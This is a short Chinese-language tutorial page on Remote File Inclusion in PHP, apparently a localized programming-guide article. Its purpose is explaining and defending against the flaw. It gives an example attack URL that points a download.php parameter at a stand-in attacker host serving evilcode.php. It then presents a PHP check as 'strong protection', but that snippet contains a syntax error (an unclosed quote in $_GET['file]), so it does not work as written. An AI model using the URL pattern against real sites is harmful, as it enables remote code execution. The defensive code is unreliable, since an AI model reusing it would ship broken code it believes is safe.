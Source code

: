```yaml
---
title: Remote File Inclusion
localeTitle: 远程文件包含
---
```

## 远程文件包含

程序员需要用户提供的文件输入而不是在访问所请求的文件之前清理输入而导致的应用程序漏洞。这会导致从远程服务器中提取文件，并将其包含在不应该存在的位置。

### 示例远程文件包含攻击

网站允许您将PDF视为`download.php?file=myfile.php` ，因为缺乏正确的检查，恶意用户可以请求远程资源并包含在脚本中。 URL可以成为`download.php?file=http://myevilserver.gtld/evilcode.php`然后可以输出给用户，或者在严重的情况下运行服务器上的实际PHP代码。

### 在PHP中保护您的网站免受远程文件包含攻击

以下PHP代码将提供针对远程文件包含攻击的强大保护

```PHP
<?php 
 if(basename($_GET['file]) !== $_GET['file']) { 
  die('INVALID FILE REQUESTED'); 
 } 
```

*   您可以在php.ini文件中禁用`allow_url_fopen`作为防止远程文件包含的附加保护。

#### 更多信息：

*   [OWASP Wiki - 测试远程文件包含](https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion)